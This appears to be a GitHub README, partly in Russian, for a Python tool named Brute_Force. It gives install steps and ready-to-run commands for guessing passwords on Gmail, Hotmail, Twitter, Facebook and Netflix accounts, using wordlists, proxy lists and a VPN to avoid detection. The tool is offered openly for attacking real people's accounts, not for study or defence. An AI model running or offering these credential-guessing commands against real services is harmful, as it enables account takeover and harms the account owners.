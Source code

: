 # Brute_Force
[![Python 3.10.2](https://img.shields.io/badge/3.10.2-Python-blue.svg)](https://www.python.org/ftp/python/3.10.2/python-3.10.2-amd64.exe)
[![GPL](https://img.shields.io/badge/GPL-V3.0-red.svg)](https://www.gnu.org/licenses/gpl-3.0.html)
[![Termux](https://img.shields.io/badge/Termux-Android-brightgreen.svg)](https://termux.com/)
![platform](https://img.shields.io/badge/Platform-Linux%7CMacOS%7CWindows-brightgreen.svg)
![alt text](https://github.com/Kini-Noro/Brute/raw/main/.github/photo.PNG?raw=true)
## install :
```bash
sudo apt install python3 python3-pip

pip3 install proxylist

pip3 install mechanize
```


# Usage:

## Брутфорс Gmail
```bash
python3 Brute_Force.py -g Account@gmail.com -l File_list

python3 Brute_Force.py -g Account@gmail.com -p Password_Single
```


## Брутфорс Hotmail
```bash
python3 Brute_Force.py -t Account@hotmail.com -l File_list

python3 Brute_Force.py -t Account@hotmail.com -p Password_Single
```


## Брутфорс Twitter

```bash
python3 Brute_Force.py -T Account_Twitter -l File_list
python3 Brute_Force.py -T Account_Twitter -l File_list -X proxy-list.txt

```
## Брутфорс Facebook

```bash
python3 Brute_Force.py -f Account_facebook -l File_list
python3 Brute_Force.py -f Account_facebook -l File_list -X proxy-list.txt
```
## Брутфорс Netflix

```bash

Предпочтительно работает VPN
Start On Vpn
python3 Brute_Force.py -n Account_Netflix -l File_list
python3 Brute_Force.py -n Account_Netflix -l File_list -X proxy-list.txt


И с нетерпением ждем большего(^-^) 
